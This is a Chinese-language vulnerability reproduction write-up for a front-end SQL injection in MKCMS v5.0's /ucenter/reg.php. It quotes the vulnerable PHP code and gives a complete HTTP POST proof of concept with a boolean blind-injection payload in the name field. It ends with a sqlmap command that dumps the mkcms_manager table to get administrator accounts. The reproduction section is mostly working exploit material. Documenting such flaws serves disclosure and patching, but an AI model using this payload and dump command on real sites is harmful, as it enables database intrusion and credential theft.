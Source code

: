 MKCMS v5.0 /ucenter/reg.php前台sql注入漏洞
==========================================

一、漏洞简介
------------

二、漏洞影响
------------

MKCMS v5.0

三、复现过程
------------

漏洞出现在`/ucenter/reg.php`第7-19行:

    if(isset($_POST['submit'])){
    $username = stripslashes(trim($_POST['name']));
    // 检测用户名是否存在
    $query = mysql_query("select u_id from mkcms_user where u_name='$username'");
    if(mysql_fetch_array($query)){
    echo '<script>alert("用户名已存在，请换个其他的用户名");window.history.go(-1);</script>';
    exit;
    }
    $result = mysql_query('select * from mkcms_user where u_email = "'.$_POST['email'].'"');
    if(mysql_fetch_array($result)){
    echo '<script>alert("邮箱已存在，请换个其他的邮箱");window.history.go(-1);</script>';
    exit;
    }

注册用户名时`$username`参数传到后台后经过`stripslashes()`函数处理，而`stripslashes()`函数的作用是删除`addslashes()`
函数添加的反斜杠。这里就很郁闷了，过滤反斜杠干嘛？

当前页面无输出点，只是返回一个注册/未注册（通过if判断true或者false)，可以使用布尔盲注来解决这个问题

POC：

    POST /ucenter/reg.php HTTP/1.1
    Host: 127.0.0.1
    User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.14; rv:65.0) Gecko/20100101 Firefox/65.0
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
    Accept-Language: en
    Accept-Encoding: gzip, deflate
    Referer: http://127.0.0.1/ucenter/reg.php
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 52
    Connection: close
    Cookie: PHPSESSID=cb8e6ccde6cf9050972fa9461d606be3
    Upgrade-Insecure-Requests: 1

    name=test' AND 1=1 AND 'inject'='inject&email=sss%40qq.com&password=ssssss&submit=

![](./.resource/MKCMSv5.0_ucenter_reg.php前台注入漏洞/media/rId24.jpg)

将POC中的数据包保存下来丢给sqlmap跑即可。

获取管理员账号：

    sqlmap -r inject.txt -D mkcms -T mkcms_manager --dump

参考链接
--------

> https://xz.aliyun.com/t/4189\#toc-1
